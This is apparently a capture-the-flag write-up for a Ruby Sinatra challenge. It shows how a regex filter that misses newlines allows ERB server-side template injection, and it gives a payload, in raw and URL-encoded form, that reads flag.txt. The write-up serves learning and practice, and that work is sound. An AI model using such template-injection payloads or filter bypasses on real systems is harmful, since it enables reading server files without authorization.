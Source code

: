 # Embed Flow
> This guy wants you to guess his favorite programming language, but missed setting up the pattern correctly.

## About the Challenge
We got a website and this website is using Sinatara (Ruby). Here is the preview of the challenge

![preview](images/preview.png)

If we try to input `'` character, we'll get an error message like this:

![testing-phase](images/testing-phase.png)

## How to Solve?
After seeing the regex pattern, I immediately knew this was similar to a HTB challenge called `Neonify` (https://blog.devops.dev/ssti-bypass-filter-0-9a-z-i-08a5b3b98def). So I used the same payload to read the flag :D

```
test
<%= File.open('flag.txt').read %>
test
```

And then encode it using urlencode and it will become

```
test%0A%3C%25=%20File.open('flag.txt').read%20%25%3E%0Atest
```

![flag](images/flag.png)

```
ictf{ruby_r3g3x_n3w_l1n3_4l3rt}
```